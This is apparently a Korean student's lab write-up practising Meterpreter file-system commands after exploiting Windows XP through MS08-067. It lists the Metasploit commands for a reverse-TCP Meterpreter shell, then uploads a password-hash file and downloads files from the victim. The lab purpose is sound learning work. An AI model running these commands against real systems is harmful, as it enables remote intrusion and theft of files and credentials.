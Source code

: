 # Stdapi를 통한 File System접근  
Stdapi중에서 File System에서 사용하는 커맨드를 실습해보고자 한다.  
현재 Unix와 MacOS를 사용하며 어느정도 유사한 커맨드 덕에 익숙하지만 Meterpreter를 통해 원격접속한 상태에서 실습을 해보는 것이 주 목표이다.  

따라서 이번에 사용할 공격 대상은 Window Xp입니다. 
Window Xp를 공격하므로 취약점은 Ms08-067을 통해 접근할 것입니다.  

### 실습 준비
**msfconsole**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/File%20System/Source/%EC%8B%A4%EC%8A%B5%EC%9D%84%20%EC%9C%84%ED%95%9C%20msfconsole.png)  
**search ms08-067**  
**use exploit/windows/smb/ms08_067_netapi**  
**set payload windows/meterpreter/reverse_tcp_allports**  
**show options**  
**set RHOST (Window Xp의 IP)**  
**set LHOST (Kali IP)**  
**run**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/File%20System/Source/WindowXp%EA%B3%B5%EA%B2%A9%EC%9D%84%20%EC%9C%84%ED%95%9C%20%EC%84%A4%EC%A0%95.png)  

이렇게 WindowXp의 취약점인 Ms08-067을 통해 meterpreter 세션이 열렸다면 이제부터 Stdapi를 실습해 볼 것입니다.  

### 실습  

**pwd**  
타겟 시스템의 현재 디렉토리 출력  
**lpwd**  
로컬 시스템의 현재 디렉토리 출력  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/File%20System/Source/%EB%AA%85%EB%A0%B9%EC%96%B4%20%EC%8B%A4%EC%8A%B51.png)  

**cd ..**  
디렉토리 이동  
**pwd**  
디렉토리의 위치 표기  
**ls**  
현재 디렉토리에 있는 모든 파일 표기  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/File%20System/Source/%EB%AA%85%EB%A0%B9%EC%96%B4%20%EC%8B%A4%EC%8A%B52.png)  

**mkdir newDir**  
디렉토리 생성  
**ls**  
#### Kali Linux에서 확인
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/File%20System/Source/%EB%AA%85%EB%A0%B9%EC%96%B4%20%EC%8B%A4%EC%8A%B53%20%EB%94%94%EB%A0%89%ED%86%A0%EB%A6%AC%20%EC%83%9D%EC%84%B1(Kali%EC%97%90%EC%84%9C%20%ED%99%95%EC%9D%B8).png)

#### Window Xp에서 확인
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/File%20System/Source/%EB%AA%85%EB%A0%B9%EC%96%B4%20%EC%8B%A4%EC%8A%B53%20%EB%94%94%EB%A0%89%ED%86%A0%EB%A6%AC%20%EC%83%9D%EC%84%B1(Xp%EC%97%90%EC%84%9C%20%ED%99%95%EC%9D%B8).png)  

위의 사진을 보다 싶이 정상적으로 폴더가 생성된 것을 볼 수 있다.

**cd newDir**  
**pwd**  
**upload /home/kali/Desktop/WinXpHash.txt "c:\WINDOWS\\newDir"**  
Kali에 저장되어있는 WindowXp의 PasswordHash값을 WindowXp의 newDir에 업로드  
**ls**  
**cat WinXpHash.txt**  
WinXpHash.txt 파일의 내용을 화면에 출력  

#### Kali Linux에서 확인
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/File%20System/Source/%EB%AA%85%EB%A0%B9%EC%96%B4%20%EC%8B%A4%EC%8A%B54(%EC%97%85%EB%A1%9C%EB%93%9C%20Kali%EC%97%90%EC%84%9C%20%ED%99%95%EC%9D%B8).png)  

#### Window Xp에서 확인
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/File%20System/Source/%EB%AA%85%EB%A0%B9%EC%96%B4%20%EC%8B%A4%EC%8A%B54(%EC%97%85%EB%A1%9C%EB%93%9C%20Xp%EC%97%90%EC%84%9C%20%ED%99%95%EC%9D%B8).png)  

이번에는 Window Xp에서 Kali로 파일을 다운로드 해볼 것이다.  
이번에 다운로드해볼 파일은 C:\\WINDOW에 있는 log파일  하나를 가져와 볼 것이다.  
**cd ..**  
**download "c:\WINDOWS\\0.log" /home/kali/Desktop**  
0.log파일을 Kali Linux에 다운로드  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/File%20System/Source/%EB%AA%85%EB%A0%B9%EC%96%B4%20%EC%8B%A4%EC%8A%B55(%EB%8B%A4%EC%9A%B4%EB%A1%9C%EB%93%9C).png)  
이렇게 사진을 확인해보면 바탕화면에 잘 다운로드 된 것을 알 수 있다.  

이제는 현재 생성한 디렉토리(폴더)를 삭제 해볼 것이다.  
**pwd**  
**rmdir newDir**  
newdir을 삭제.

#### Kali Linux에서 확인
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/File%20System/Source/%EB%AA%85%EB%A0%B9%EC%96%B4%20%EC%8B%A4%EC%8A%B56(%EC%82%AD%EC%A0%9C).png)  
현재 사진에는 보이지 않으나 WindowXp에서 Hash값을 저장한 txt파일에 접근 중인것을 까먹고 디렉토리 삭제 명령을 보내 오류가 발생했다.  
이는 가장 기본적인 실수로 삭제하려는 디렉토리(폴더)에 파일 시스템이나 다른 사람이 접근 중이라면 삭제하거나 변경하는 것이 불가능하다.  

#### Window Xp에서 확인
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/Meterpreter%20Extensions/File%20System/Source/%EB%AA%85%EB%A0%B9%EC%96%B4%20%EC%8B%A4%EC%8A%B56(%EC%82%AD%EC%A0%9C).png)  
이렇게 WindowXp에서 디렉토리(폴더)가 사라진것을 볼 수 있다.  
